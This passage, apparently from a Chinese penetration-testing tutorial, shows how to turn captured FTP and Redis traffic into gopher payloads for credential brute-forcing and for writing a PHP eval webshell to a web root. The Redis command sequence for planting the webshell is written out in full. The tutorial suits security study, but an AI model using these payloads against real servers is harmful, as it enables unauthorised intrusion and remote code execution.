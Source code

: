 首先，先在FTP的服务器上测试一下访问FTP的流量情况，对其进行抓包处理。

  * 

    
    
    curl ftp://vsftp:vsftp@127.0.0.1/ 【vsftp账号：vsftp密码】

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223522.png)

右键 Follow tcp steam ,保存为ASCII格式,这里我们只保留 USER PASSQUIT这3个字符用于加快爆破返回速度。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223524.png)

按照规则转换成gopher码，再放入BP中需要对其进行一次转码进行爆破。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223525.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223526.png)

  

##

 **REDIS**

##

常见的写入webshell脚本。

  *   *   *   *   * 

    
    
    flushall  set 1 '<?php eval($_GET["cmd"]);?>'  config set dir /www/wwwroot/  config set dbfilename shell.php  save

用wireshark捕捉lo0，再写入：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223528.png)

右键定位tcp跟踪流：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223529.png)

按之前的方法转换成gopher码后，成功生成shell.php。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223530.png)

当然我们也可以利用gopherus直接生成gopher码

  * 

    
    
    https://github.com/tarunkant/Gopherus

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223531.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223534.png)
